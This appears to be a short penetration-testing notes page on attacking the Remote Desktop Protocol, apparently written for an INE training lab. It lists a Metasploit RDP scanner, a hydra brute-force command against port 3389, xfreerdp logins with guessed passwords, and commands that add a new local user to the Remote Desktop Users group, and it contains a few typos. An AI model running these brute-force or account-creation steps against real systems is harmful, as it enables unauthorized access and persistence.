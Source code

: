```yaml
---
title: 'RDP'
description: ''
pubDate: 'Jul 03 2022'
slug: rdp/vuln
---
```


### Information

- The Remote Dektop Protocol is propriertary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a windows system.

- Uses 3389 TCP port by default, .

- Requires authentication.

- Can perform a brute-force attack

```bash
# Detect if that port its really a rdp.
$ mfsconsole use auxiliary/scanner/rdp/rdp_scanner

# Brute force.
$ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/linux_pass.txt rdp://target -s 3389

$ xfreerdp /u:administrator /p:password123  /v:ta rget:port
```

crear usuario rdp

```bash
net user guest_1 guestpwd /add
net localgroup "Remote Desktop Users" guest_1 /add
net user
##

xfreerdp /u:guest_1 /p:guestpwd /v:demo.ine.local

```
